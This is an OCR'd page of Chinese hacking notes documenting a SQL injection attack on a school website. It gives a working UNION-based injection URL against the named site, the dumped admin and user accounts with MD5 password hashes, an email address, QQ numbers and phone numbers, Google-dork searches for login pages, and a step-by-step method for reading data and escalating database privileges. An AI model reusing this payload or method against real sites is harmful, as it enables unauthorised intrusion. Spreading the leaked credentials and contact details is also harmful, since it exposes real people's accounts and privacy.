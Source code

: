	kbenfqir   1f1767b5696e79116b11ecc7f2882783
	ckxlllum   1f1767b5696e79116b11ecc7f2882783
	ibqydfyr   1f1767b5696e79116b11ecc7f2882783
	mlgwwsfx   1f1767b5696e79116b11ecc7f2882783
	yqhlmjjf   1f1767b5696e79116b11ecc7f2882783
	shufu      e10adc3949ba59abbe56e057f20f883e
	lirsetjq   1f1767b5696e79116b11ecc7

	很多密码都是一样的, 这是个测试用的废表?

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20%20group_concat(username)%20from%20qcss.qcms_user)%20--

qcss.qcms_user的用户名,密码

	admin
	yaoshf

	admin  21232f297a57a5a743894a0e4a801fc3
	yaoshf dfc301534e7ee540498f3b83133b8554
                                                                 qq         tel
	admin  21232f297a57a5a743894a0e4a801fc3  hbdy_sf@163.com  52703859   12345678 湖北大冶一中
	yaoshf dfc301534e7ee540498f3b83133b8554  hbdy_sf@163.com             8737075  大冶一中信息中心

	-- admin的QQ号码真实存在

寻找后台, 放狗(inurl:login  site:dyyz.net.cn):

	www.dyyz.net.cn/celebrate/login.php    //校庆分站的登陆
	www.dyyz.net.cn/login.php              //主站的登陆

校庆分站貌似可以随意注册

	http://www.dyyz.net.cn/celebrate/reg.php  貌似可以随意注册啊!

	猜测注册的用户位于qcss.qcms_user表中, 应为这个表结构中密码列示password和页面的中密码框的名称一致

	注册进去后会有什么情况..

## 总结

发现注入点后, 按照以下过程进行:

	1  注入union语句, 猜测被注入语句查询的列数 " union select 1,2,3,4,5 --"
	2  仔细观察页面, 寻找页面上可以被注入语句改写的地方
	3  调整注入语句, 将关注的敏感信息读取到页面上
	4  测试当前数据库用户的权限, 读取、修改、插入、写文件等

